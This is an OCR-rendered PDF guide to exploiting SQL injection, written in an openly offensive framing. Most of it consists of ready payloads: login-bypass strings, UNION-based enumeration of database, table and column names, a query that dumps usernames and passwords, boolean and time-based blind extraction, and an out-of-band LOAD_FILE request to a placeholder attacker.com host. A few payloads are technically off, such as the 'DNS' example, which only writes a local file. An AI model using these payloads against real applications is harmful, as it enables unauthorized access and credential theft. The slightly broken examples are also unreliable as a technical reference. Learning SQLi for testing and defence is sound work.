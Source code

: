 # Complete SQL Injection


## Page 1

Complete SQL Injection (SQLi) Exploitation Guide  
Introduction  
SQL Injection (SQLi) is a widespread and dangerous web application vulnerability that occurs 
when an attacker manipulates SQL queries by injecting malicious SQL code. This can lead to 
unauthorized access, data exfiltration, and even full control of the aff ected system.  
In this document, we will guide you through a structured process to identify and exploit SQL 
Injection vulnerabilities in an application. The goal is to extract sensitive information like 
database names, table names, column names, and user credentials by m anipulating SQL 
queries through various forms of SQL Injection, including In-Band SQLi , Blind SQLi , Boolean -
based SQLi , Time -based SQLi , and Out-of-Band SQLi . 
Step -by-Step SQL Injection Process  
1. Identifying SQL Injection Vulnerabilities  
The first step is identifying points of vulnerability in the application where SQL Injection can 
occur. Look for user input fields that interact with a database (login forms, search boxes, URL 
parameters, etc.).  
Basic Tests for SQL Injection  
• Single Quote Test : Start by injecting a single quote (') or double quote (") into input 
fields. This can break SQL queries if not sanitized properly and cause errors, which 
can be indicative of SQLi vulnerability.  
o Example:  
o http://example.com/login?username='&password=''  
• Common Payloads : Use common payloads to test for SQL Injection:  
o 1' OR '1'='1  
o admin' -- 
o 1' OR 1=1 -- 
o 1' UNION SELECT null,null,null -- 
• Check for Error Messages : If an error message appears, it may contain information 
about the database (e.g., the type of database, SQL query structure, etc.).  
2. Exploiting the Vulnerability: In -Band SQL Injection  
In-Band SQL Injection is one of the most common types of SQL Injection. It allows the 
attacker to both inject SQL code and retrieve data via the same communication channel.  
Enumerating the Number of Columns

## Page 2

To start exploiting a Union -based SQLi, determine the number of columns returned by the 
SQL query:  
1. Inject a simple payload like:  
2. 1' UNION SELECT NULL --  
If this causes no error, then continue adding NULL values:  
1' UNION SELECT NULL, NULL, NULL --  
Keep increasing the number of NULL values until the query succeeds, indicating the correct 
number of columns.  
Enumerating Database Name  
Once the correct number of columns is identified, the next step is to find the database 
name:  
1. Use database() to reveal the current database:  
2. 1' UNION SELECT NULL, NULL, database() --  
This will return the name of the current database.  
Enumerating Tables in the Database  
Next, identify the tables in the database. Use information_schema to access metadata about 
the database:  
1. Use a query like the following to list the tables:  
2. 1' UNION SELECT NULL, NULL, table_name FROM information_schema.tables WHERE 
table_schema = 'current_database' --  
Replace current_database with the actual database name you discovered.  
Enumerating Columns in a Table  
Once you have identified a table (e.g., users), the next step is to enumerate the columns in 
that table.  
1. Use information_schema.columns to list the columns of a specific table:  
2. 1' UNION SELECT NULL, column_name, NULL FROM information_schema.columns 
WHERE table_name = 'users' AND table_schema = 'current_database' --  
Extracting Data from Tables  
Now that you know the table and columns, you can extract the data from the target table 
(e.g., the users table).

## Page 3

1. Query for specific columns like username and password:  
2. 1' UNION SELECT username, password, NULL FROM users --  
3. Blind SQL Injection  
If the application does not display error messages or data directly, Blind SQL Injection 
techniques can be used to infer results based on the behavior of the application.  
Boolean -Based Blind SQL Injection  
In this case, you manipulate the query to return true or false, which can be inferred from the 
application's behavior (e.g., a change in response or page content).  
1. Testing for True/False Response : You can test whether a specific condition is true or 
false by injecting a query that forces a true or false response:  
2. 1' AND 1=1 --  (True)  
3. 1' AND 1=2 --  (False)  
4. Extracting Database Name Using Boolean Logic : To find the database name, use the 
following query:  
5. 1' AND database() = 'sqli_database' --  
If true, it means the database name is correct.  
Time -Based Blind SQL Injection  
Time -Based Blind SQL Injection relies on the response time to infer whether the query was 
successful.  
1. Injecting Time Delay : Use SLEEP(x) to introduce a delay in the query response:  
2. 1' UNION SELECT NULL, SLEEP(5) --  
If the response takes 5 seconds to load, it confirms the query is successful.  
3. Testing Database Name with Time Delay : 
4. 1' UNION SELECT NULL, NULL, SLEEP(5) WHERE database() LIKE 's%' --  
If there is a delay, it means the database name starts with "s."  
4. Out -of-Band SQL Injection  
Out-of-Band SQL Injection relies on the ability of the database to make external requests 
(e.g., HTTP , DNS) based on the query result.  
1. Triggering Out -of-Band Requests : Use DNS or HTTP requests to send data back to the 
attacker’s server:

## Page 4

2. 1' UNION SELECT NULL, NULL, LOAD_FILE(' \\\\attacker.com \\file.txt') --  
This query will cause the database to make a request to the attacker’s server and return the 
contents of file.txt.  
3. Using DNS Requests : The attacker can craft queries that force the database to 
resolve DNS names, which the attacker can monitor:  
4. 1' UNION SELECT NULL, NULL, 'example.com' INTO OUTFILE '/tmp/attacker -
request.log' --  
5. Authentication Bypass with SQL Injection  
One of the most common SQL Injection use cases is bypassing authentication (login forms).  
1. Bypassing Login Forms : Inject payloads like admin' -- or 1' OR 1=1 -- into the 
username or password fields to bypass authentication:  
2. username='admin' -- password=''  
This will comment out the rest of the query and allow access with the username admin.  
3. Using Logical Operators : In some cases, attackers use OR logic to make sure the 
query always returns true:  
4. 1' OR 1=1 --  
6. Exploiting SQL Injection for Credential Extraction  
Once you have identified the columns and tables (like users), you can extract credentials 
from the database.  
1. Extracting Passwords : Use the UNION SELECT statement to dump usernames and 
passwords:  
2. 1' UNION SELECT username, password, NULL FROM users --  
3. Extracting Hashes : If passwords are hashed, you can extract the hash values for 
offline cracking.
